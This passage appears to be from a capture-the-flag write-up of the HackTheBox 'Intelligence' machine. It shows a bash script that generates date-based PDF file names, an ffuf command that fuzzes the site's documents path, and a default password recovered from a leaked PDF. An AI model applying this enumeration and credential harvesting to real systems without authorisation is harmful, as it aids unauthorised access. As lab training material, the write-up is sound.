 adding intelligence.htb dc dc.intelligence.htb to /etc/hosts

We know that is active directory set, enumerating smb, ldap, kerberos but didn't find anything usefull so let's skip to website
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918183214.png)

we have 2 download buttons let's check it in burp 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918183420.png)

Nothing special in burp, but we may search for other pfd files we know syntax
```
http://intelligence.htb/documents/2020-12-15-upload.pdf
http://intelligence.htb/documents/2020-01-01-upload.pdf
```

Year month day upload.pdf.
Let's create simple bash script to generate whole year

```
#!/bin/bash

YEAR=2020
OUTPUT="lista.txt"

## Generujemy wszystkie dni roku 2020
for day in $(seq 0 365); do
    DATE=$(date -d "$YEAR-01-01 +$day days" +"%Y-%m-%d")
    echo "${DATE}-upload.pdf" >> "$OUTPUT"
done
```

great and now let's run ffuf to find valid 

```
ffuf -w lista.txt -u http://intelligence.htb/documents/FUZZ
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918185600.png)

checked 1 to confirm 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918185752.png)

and here I found default password: NewIntelligenceCorpUser9876
Next I will create list of valid pdf files save ffuf output to valid.txt and then

```
cat valid.txt | awk '{print $1}' > valided.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918190316.png)
